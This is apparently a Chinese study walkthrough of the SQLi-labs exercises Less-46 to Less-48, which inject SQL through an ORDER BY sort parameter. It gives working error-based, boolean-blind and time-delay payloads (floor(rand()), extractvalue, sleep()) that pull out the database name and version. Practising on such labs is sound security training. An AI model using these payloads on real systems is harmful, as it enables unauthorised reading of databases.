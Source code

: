 与常规的where后的注入不同，order by无法使用union联合查询注入方式

验证-
rand()验证

?sort=rand(1) 与 ?sort=rand(0)的结果时不一致的，利用这一点，我们可以构造布尔盲注和延时注入

延时验证

?sort=1 and sleep(4)

请求方式 get

闭合方式 数字型

注入方式 报错，布尔，延时

报错注入-
利用order by重复键冲突

    ?sort=1 and (select 1 from (select count(*),concat((select version()),floor(rand(0)*2))x from information_schema.tables group by x)a)
    
        

利用 procedure analyse 参数，也可以执行报错注入

    ?sort=1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1)
    
        

布尔盲注

    ?sort=rand(length(database())=9)
    
        

延时注入

    ?sort=rand(if(length(database())=8,1,sleep(1)))
    
    ?sort=1 and if(length(database())=9,1,sleep(1))
    
        

## Less-47

与46关类似，只是拼接方式不同

请求方式 get

闭合方式 ’

注入方式 报错，布尔，延时

## Less-48

与46关类似，只是少了报错输出，不能使用报错注入

请求方式 get

闭合方式 数字型

注入方式 布尔，延时
